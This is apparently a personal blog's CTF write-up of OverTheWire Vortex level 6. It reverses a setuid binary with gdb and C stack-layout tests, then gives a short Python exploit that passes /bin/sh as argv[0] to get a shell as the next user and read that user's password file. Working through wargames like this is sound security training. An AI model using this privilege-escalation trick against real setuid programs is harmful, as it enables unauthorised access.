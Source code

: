 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 6"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex6.png)

## Context

For [this level](http://overthewire.org/wargames/vortex/vortex6.html) we have just the binary, not the source code and some reversing tutorials are suggested. First, we'll download it and study it locally with _`gdb`_.
```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble main 
Dump of assembler code for function main:
   0x08048446 <+0>: push   ebp
   0x08048447 <+1>: mov    ebp,esp
   0x08048449 <+3>: and    esp,0xfffffff0
   0x0804844c <+6>: sub    esp,0x10
   0x0804844f <+9>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048452 <+12>: mov    eax,DWORD PTR [eax]
   0x08048454 <+14>: test   eax,eax
   0x08048456 <+16>: je     0x8048465 <main>
   0x08048458 <+18>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804845b <+21>: mov    eax,DWORD PTR [eax]
   0x0804845d <+23>: mov    DWORD PTR [esp],eax
   0x08048460 <+26>: call   0x8048424 <restart>
   0x08048465 <+31>: mov    eax,DWORD PTR [ebp+0x10]
   0x08048468 <+34>: add    eax,0xc
   0x0804846b <+37>: mov    eax,DWORD PTR [eax]
   0x0804846d <+39>: mov    DWORD PTR [esp],eax
   0x08048470 <+42>: call   0x8048354 <printf@plt>
   0x08048475 <+47>: mov    DWORD PTR [esp],0x7325
   0x0804847c <+54>: call   0x8048334 <_exit@plt>
End of assembler dump.
(gdb) disassemble restart 
Dump of assembler code for function restart:
   0x08048424 <+0>: push   ebp
   0x08048425 <+1>: mov    ebp,esp
   0x08048427 <+3>: sub    esp,0x18
   0x0804842a <+6>: mov    DWORD PTR [esp+0x8],0x0
   0x08048432 <+14>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048435 <+17>: mov    DWORD PTR [esp+0x4],eax
   0x08048439 <+21>: mov    eax,DWORD PTR [ebp+0x8]
   0x0804843c <+24>: mov    DWORD PTR [esp],eax
   0x0804843f <+27>: call   0x8048344 @lt;execlp@plt>
   0x08048444 <+32>: leave  
   0x08048445 <+33>: ret    
End of assembler dump.
```

After the function prologue and [alignment of stack pointer to 4-byte boundary](https://stackoverflow.com/questions/4175281/what-does-it-mean-to-align-the-stack), 16 bytes are subtracted from _`ESP`_ to make room for local variables. Throughout the code of _`main`_ function, there are references to 2 locations we need to understand: `_ebp+0x10`_ and _`ebp+0x0c`_. [This article](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames) explains basics about stack frames, while [the next one](http://www.win.tue.nl/~aeb/linux/hh/stack-layout.html) details also the stack layout. The stack layout before calling the main function looks like this:
```
:    :
|    | [ebp + 16] (env - address of env array)
|    | [ebp + 12] (argv - address of argv array)
|    | [ebp + 8]  (argc - number of arguments passed to main)
|    | [ebp + 4]  (return address)
|    | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
:    :
```

We can quickly verify this with the following wrapper program, that runs a target program with different arguments. [This thread](https://stackoverflow.com/questions/2114163/reading-a-register-value-into-a-c-variable) shows a way to read registers (_`ebp`_ in our case) with inline assembly from C code compiled with GCC.
```c
#include <stdio .h>
 
int main() {
    register int ebp asm("ebp");    
     
    char **env = *(char***)(ebp + 16);
    char **argv = *(char ***)(ebp + 12);
    int argc = *(int*)(ebp + 8);
     
    printf("[EBP + 16] - First element of env[] array: %s\n", env[0]);
    printf("[EBP + 12] - First element of argv[] array: %s\n", argv[0]); 
    printf("[EBP +  8] - Number of arguments (argc): %d\n", argc);
}
```

And the test wraper: 
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char* argv[]) {
 
    char* arg[] = {"ARG0", "ARG1", "ARG2", "ARG3", "ARG4", "ARG5", NULL};
    char* env[] = {"ENV0", "ENV1", "ENV2", "ENV3", NULL};
 
    execve("./layout",arg,env);
}
```

So we have: 
```bash
# gcc layout.c -o layout
# gcc wrap.c -o wrap
# ./wrap 
[EBP + 16] - First element of env[] array: ENV0
[EBP + 12] - First element of argv[] array: ARG0
[EBP +  8] - Number of arguments (argc): 6
``` 

Based on that, we see that the vortex6 binary checks the first environment variable, and if it's not _`NULL`_ it executes the _`restart`_ function with _`argv[0]`_ as parameter. We see that _`reconstruct()`_ function calls _`execlp`_, with first two arguments the value from _`**(ebp+8)`_, and the third one _`NULL`_. When calling restart function, the stack looks like this:
```bash
:    :
|    | [ebp + 12] (2nd argument)
|    | [ebp + 8]  (1st argument)
| RA | [ebp + 4]  (return address)
| FP | [ebp]      (old ebp value)
|    | [ebp - 4]  (1st local variable)
```

So wee see that at _`ebp + 8`_ we have its first argument, which is in fact _`argv[0]`_. Basically the reconstructed function is:
```c
void restart(char *s) {
    execlp(s,s,NULL);
}
```

After reversing the whole functionality, it's easy to exploit the binary using a simple Python wrapper:
```python
import subprocess
 
argv = ['/bin/sh']
 
p = subprocess.Popen(argv, executable = './vortex6.bin')        
p.wait()
```

And tada...
```bash
vortex6@melissa:~$ python /tmp/myl6.py
$ id
uid=5006(vortex6) gid=5006(vortex6) euid=5007(vortex7) groups=5007(vortex7),5006(vortex6)
$ cat /etc/vortex_pass/vortex7
*****
```
